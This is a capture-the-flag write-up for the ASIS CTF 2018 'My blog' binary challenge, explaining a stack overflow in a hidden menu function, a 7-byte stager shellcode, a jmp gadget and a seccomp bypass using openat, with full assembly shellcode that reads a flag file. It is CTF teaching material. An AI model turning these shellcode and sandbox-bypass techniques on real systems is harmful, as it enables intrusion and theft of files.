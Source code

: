 ```yaml
---
title: ASIS CTF 2018 - My blog
author: Tosh
date: 2018-04-30
tags: ctf,asis,exploit,pown
layout: post
---
```


![](/images/asis-myblog.png)

- Exploit : [github](https://github.com/t00sh/ctf/tree/master/2018/asis/myblog)

- Challenge : [myblog](https://repo.t0x0sh.org/ctf/2018/asis/myblog/myblog)

For this challenge from ASIS-CTF, we have a remote ELF64 binary to exploit with almost all protections except SSP. This challenge have a menu asking different things like writing blog post, deleting them or showing the blog owner :

![](/images/asis-myblog2.png)

But the interesting function is hidden, and if we disassemble the binary with IDA-pro, we see that a special function can be called with "31337" from the menu. This function will call the read function with a size of 0x18, but only 0x10 bytes are allocated for the frame : we can trigger a stack-based overflow of 16 bytes.

![](/images/asis-myblog3.png)

One more interesting thing for this function : at the begining a function pointer is leaked, which break the PIE. But before returning, the function do different checks and do not allow us to have address between _base_ and  _base + 0xFFF_.

Now what can we do ?

If we go deeper, we can see an other interesting function called during the initialisation process. This function call mmap() with all protections (RWX), and allocate two memory pages. As you can see on the disassembly, the returned pointer is stored into .bss.

![](/images/asis-myblog4.png)

But can we control anything in this RWX memory zone ? The answer is yes. The third option in the menu allow us to write 7 bytes into this memory zone as you can see in this screen :

![](/images/asis-myblog5.png)

Now, we need two things : a 7 bytes shellcode and a gadget for calling the mmaped pointer. The second is easy to find with [rop-tool](https://github.com/t00sh/rop-tool) :

```
$ rop-tool g ./myblog
...
0x0000000000001893 -> jmp qword ptr [rbp];
...
```

By luck, we fully control the rbp pointer at the end of the vulnerable function (the saved-rbp is overwriten). Because of the very short shellcode size, I choosed to use the sys_read syscall for receiving a longer one at the same place. Here is my 7 bytes shellcode with the register settings at the end of the vulnerable function :

```
	section .text
    global _start
_start:
    ; EBX = 0
	; RBP = base + mmap_ptr
	; RDI = 0
	; RDX = 0x7f....
    xchg eax, ebx
    mov rsi, [rbp]
    syscall
```

This shellcode will receive data from stdin into the mmaped memory, and we can now send a more sophisticated one.

But we have a problem : at the beginning, seccomp is used and some syscalls are blacklisted. We can use [seccomp-tools](https://github.com/david942j/seccomp-tools) to see what syscalls cannot be called. And we get :

```
$ seccomp-tools dump ./myblog
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x06 0x00 0x40000000  if (A >= 0x40000000) goto 0010
 0004: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0010
 0005: 0x15 0x04 0x00 0x0000003b  if (A == execve) goto 0010
 0006: 0x15 0x03 0x00 0x00000039  if (A == fork) goto 0010
 0007: 0x15 0x02 0x00 0x0000003a  if (A == vfork) goto 0010
 0008: 0x15 0x01 0x00 0x00000038  if (A == clone) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
 ```

We see that open, execve, fork, vfork and clone are forbidden. So, how can we read the flag ? To perform that, we can use the the syscall sys_openat with an absolute path : the first parameter (directory fd) will be ignored and the file will be opened. By luck, we learned the absolute path to the flag (/home/pwn/flag) from an another challenge.

We now have everything to build our second shellcode :

```
	section .text
	global _start
_start:
	;; openat()
	mov rbx, qword[rbp]
	add rbx, 0x1000
	mov qword[rbx], '/hom'
	mov qword[rbx+4], 'e/pw'
	mov qword[rbx+8], 'n/fl'
	mov qword[rbx+12], 'ag'
	mov qword[rbx+14], 0
	mov rax, 257
	mov rdi, 0
	mov rsi, rbx
	mov rdx, 0
	mov r10, 0
	syscall

	mov r10, rax

	;; read()
	mov rax, 0
	mov rdi, r10
	mov rsi, rbx
	mov rdx, 0x40
	syscall

	;; write()
	mov rax, 1
	mov rdi, 1
	mov rsi, rbx
	mov rdx, 0x40
	syscall
```

When the shellcode is executed, the flag is sent on stdout !
